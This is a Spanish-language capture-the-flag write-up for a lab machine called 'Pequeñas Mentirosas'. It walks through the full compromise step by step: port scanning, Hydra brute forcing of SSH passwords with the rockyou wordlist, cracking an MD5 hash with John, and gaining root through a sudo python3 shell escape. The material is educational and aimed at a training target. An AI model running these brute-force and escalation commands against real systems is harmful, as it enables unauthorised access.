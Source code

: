 ```yaml
---
description: '✍️ Autor: beafn28🔍 Dificultad: Fácil  📅 Fecha de creación: 26/09/2024'
---
```


# Pequeñas Mentirosas

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../.gitbook/assets/imagen (4).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../.gitbook/assets/imagen.png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../.gitbook/assets/imagen (1).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web nos mencione una pista y descubrimos que puede ser un usuario llamado **A** y tiene sentido ya que es un personaje de la serie de **Pequeñas Mentirosas**.&#x20;

<figure><img src="../.gitbook/assets/imagen (4) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l a -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 5
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **172.17.0.2**.

<figure><img src="../.gitbook/assets/imagen (5).png" alt=""><figcaption></figcaption></figure>

Al realizar el ataque de fuerza bruta, hemos descubierto la contraseña de **a**. Sabiendo esto, nos conectamos a través de **SSH** al usuario con el comando:

```bash
ssh a@172.17.0.2
```

<figure><img src="../.gitbook/assets/imagen (2).png" alt=""><figcaption></figcaption></figure>

Al listar el contenido del directorio, no encontramos ningún archivo. Es importante recordar que los archivos asociados con los servidores se almacenan en el directorio `/srv`.&#x20;

```bash
cd /srv/ftp
```

<figure><img src="../.gitbook/assets/imagen (3).png" alt=""><figcaption></figcaption></figure>

Nos descargamos a nuestro equipo esos archivos.&#x20;

```bash
scp a@172.17.0.2:/srv/ftp/* ~/Desktop/
```

<figure><img src="../.gitbook/assets/imagen (27).png" alt=""><figcaption></figcaption></figure>

Indagamos poco a poco nos llama la atención sobre los ficheros de texto denominados `retos`.

<figure><img src="../.gitbook/assets/imagen (8).png" alt=""><figcaption></figcaption></figure>

Sabiendo eso tenemos que desencriptar el archivo `cifrado_aes.enc` con la clave del archivo `clave_aes.txt` con el comando:

```bash
openssl enc -d -aes-128-cbc -in cifrado_aes.enc -out desencriptado_aes.txt -k thisisaverysecretkey!
```

El archivo resultante contiene:

<figure><img src="../.gitbook/assets/imagen (9).png" alt=""><figcaption></figcaption></figure>

No contiene nada relevante seguimos con el archivo `retos_asimetrico.txt` con el comando:

```bash
openssl pkeyutl -decrypt -in mensaje_rsa.enc -out desencriptado_rsa.txt -inkey clave_privada.pem
```

Pero nos vuelve a parecer el mismo resultado:

<figure><img src="../.gitbook/assets/imagen (10).png" alt=""><figcaption></figcaption></figure>

Vemos que hay un archivo `hash_spencer.txt` posiblemente **spencer** sea un usuario  por lo que a lo mejor ese **hash** es una contraseña. La podemos descifrar de dos maneras: la primera con **John** y la segunda con **Hydra** suponiendo que **spencer** es un usuario.

```bash
john --format=raw-md5 hash_spencer.txt
```

<figure><img src="../.gitbook/assets/imagen (11).png" alt=""><figcaption></figcaption></figure>

```bash
hydra -l spencer -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 5
```

<figure><img src="../.gitbook/assets/imagen (12).png" alt=""><figcaption></figcaption></figure>

```bash
ssh spencer@172.17.0.2
```

<figure><img src="../.gitbook/assets/imagen (13).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../.gitbook/assets/imagen (14).png" alt=""><figcaption></figcaption></figure>

Se ha identificado que podemos ejecutar `/usr/bin/python3` con permisos de `sudo`. Para escalar privilegios, utilizaremos [GTFObins](https://gtfobins.github.io/gtfobins/python/), que proporciona una lista de comandos que se pueden ejecutar utilizando Python.

Esto nos permitirá aprovechar el entorno de Python para ejecutar código que nos ayude a obtener acceso a niveles más altos de privilegio en el sistema.

```bash
sudo python3 -c 'import os; os.system("/bin/sh")'
```

<figure><img src="../.gitbook/assets/imagen (15).png" alt=""><figcaption></figcaption></figure>

Ya somos **root** por lo que hemos conseguido tener los máximos privilegios.&#x20;

> **Nota**: los demás archivos son para despistar.

